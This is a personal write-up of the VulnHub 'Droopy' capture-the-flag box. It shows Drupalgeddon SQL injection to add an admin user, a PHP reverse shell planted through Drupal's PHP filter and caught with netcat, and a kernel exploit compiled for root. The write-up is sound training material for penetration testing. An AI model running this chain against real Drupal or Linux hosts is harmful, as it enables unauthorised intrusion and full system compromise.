 ```yaml
---
layout: default
title : muzec - DroopyCTF Writeup
---
```



![image](https://user-images.githubusercontent.com/69868171/118015078-e576e880-b321-11eb-97a0-c0f3dd003b14.png)

Yet again today we be working on another OSCP like box Droopy On vulnhub you can grab a copy here [Download  Droopy: v0.2](https://www.vulnhub.com/entry/droopy-v02,143/)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```


```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/droppy]
└─$ nmap -sC -sV -oA nmap 172.16.139.175        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-12 10:01 EDT
Nmap scan report for 172.16.139.175
Host is up (0.00013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Welcome to La fraude fiscale des grandes soci\xC3\xA9t\xC3\xA9s | La fraud...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.32 seconds
```

Just a single port cool and a robots.txt directory cool let check the webpage to see what is running .

![image](https://user-images.githubusercontent.com/69868171/118015601-764dc400-b322-11eb-8f77-f74181ccfa00.png)

The CMS is drupal let check the robots.txt .

![image](https://user-images.githubusercontent.com/69868171/118015733-9bdacd80-b322-11eb-9040-ec10628eefdf.png)

So i decided to check the `/CHANGELOG.txt` directory since it always hold drupal version let confirm it .

![image](https://user-images.githubusercontent.com/69868171/118015905-c9277b80-b322-11eb-9204-e0c936329be3.png)

And we have the version let do a quick searchsploit on it .

┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/droppy]
└─$ searchsploit Drupal 7.30
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                                                                    | php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                                                                     | php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)                                                          | php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)                                                          | php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)                                                             | php/webapps/35150.php
Drupal < 7.34 - Denial of Service                                                                                                    | php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                             | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                                                          | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                                  | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                              | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                                     | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                                       | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                                   | php/webapps/46459.py
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

And boom we some exploit let try the first one since it will be adding a new admin user sound cool right .

`python 34992.py -t http://172.16.139.175/ -u muzec -p muzec`

![image](https://user-images.githubusercontent.com/69868171/118016360-4b17a480-b323-11eb-9fcf-14de63f71ef2.png)

And user created let use it to log in .

![image](https://user-images.githubusercontent.com/69868171/118016447-64b8ec00-b323-11eb-8e48-c498878bcdf7.png)

Ahhhhh we are in awesome right?? lol now let try and get a reverse shell let do some setting first.

![image](https://user-images.githubusercontent.com/69868171/118016554-8c0fb900-b323-11eb-9cff-c5bb59a84068.png)

Click on Modules and scroll down and tick `PHP filter`  and click on save .

![image](https://user-images.githubusercontent.com/69868171/118016747-c4af9280-b323-11eb-90df-2f1a07f18a83.png)

Now let go back to the same Modules and click on permission close to the PHP filter .

![image](https://user-images.githubusercontent.com/69868171/118016959-06403d80-b324-11eb-9458-31c77a595e78.png)

Now let scroll down and tick Use the PHP code text format and save permission.

![image](https://user-images.githubusercontent.com/69868171/118017101-32f45500-b324-11eb-917b-0d3575b8be92.png)

Now let click on Add content .

![image](https://user-images.githubusercontent.com/69868171/118017345-7ea6fe80-b324-11eb-8011-678da7284913.png)

Click on article .

![image](https://user-images.githubusercontent.com/69868171/118017540-bf9f1300-b324-11eb-8744-58ec938f54cb.png)

Now at title let name it shell and skip the tag and move to the body now we need a reverse shell code from pentestmonkey the php one which you can download it here [Download PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) .

Now let copy the reverse shell code to the body and make sure we add our Local-IP address and port also let start an Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/118019411-f70ebf00-b326-11eb-9926-42bd7a6e55de.png)

Now at text format let pick PHP code .

![image](https://user-images.githubusercontent.com/69868171/118019487-0d1c7f80-b327-11eb-823f-7efe24b3fa96.png)

Now let click on save going back to our listener we should have shell.

![image](https://user-images.githubusercontent.com/69868171/118019620-2cb3a800-b327-11eb-86da-140962e45013.png)

And boom we have shell .

![image](https://user-images.githubusercontent.com/69868171/118019741-52d94800-b327-11eb-80c4-d9b0ccc8b154.png)

Now let spawn a TTY shell .

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/droppy]
└─$ nc -nvlp 5555                       
listening on [any] 5555 ...
connect to [172.20.10.4] from (UNKNOWN) [172.20.10.4] 55347
Linux droopy 3.13.0-43-generic #72-Ubuntu SMP Mon Dec 8 19:35:06 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
 18:37:44 up 40 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn ("/bin/bash")'
www-data@droopy:/$ 
```
Checking the home directory found a user but nothing interesting about it .

```
www-data@droopy:/home/gsuser$ ls
ls
drupal
www-data@droopy:/home/gsuser$ ls -la
ls -la
total 32
drwxr-xr-x 4 gsuser gsuser 4096 Apr 10  2016 .
drwxr-xr-x 3 root   root   4096 Dec 11  2014 ..
-rw-r--r-- 1 gsuser gsuser  220 Dec 11  2014 .bash_logout
-rw-r--r-- 1 gsuser gsuser 3637 Dec 11  2014 .bashrc
drwx------ 2 gsuser gsuser 4096 Dec 11  2014 .cache
-rw-r--r-- 1 gsuser gsuser  675 Dec 11  2014 .profile
-rw------- 1 root   root   1463 Dec 11  2014 .viminfo
drwxrwxr-x 2 gsuser gsuser 4096 Apr 11  2016 drupal
www-data@droopy:/home/gsuser$ 
```

### Privilege Escalation

Going around found a credentials for MYSQL but nothing intesting in the databases so i decided to check for version .

![image](https://user-images.githubusercontent.com/69868171/118020589-3be72580-b328-11eb-8b81-5761922b0e31.png)

`uname -a`

![image](https://user-images.githubusercontent.com/69868171/118020633-4bff0500-b328-11eb-94ba-67235f26f550.png)

A quick google search and we found our exploit not sure but let give it a try .

![image](https://user-images.githubusercontent.com/69868171/118020771-7d77d080-b328-11eb-8cec-d5988370d9c4.png)

Now let transfer it to the target with SimpleHTTPServer and wget .

![image](https://user-images.githubusercontent.com/69868171/118020922-adbf6f00-b328-11eb-8a72-263abc3b899c.png)

Now let compile the exploit.

`gcc 37292.c -o exploit` now let run it .

![image](https://user-images.githubusercontent.com/69868171/118021447-3a6a2d00-b329-11eb-86ce-667ad099d721.png)

Boom we are root .

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
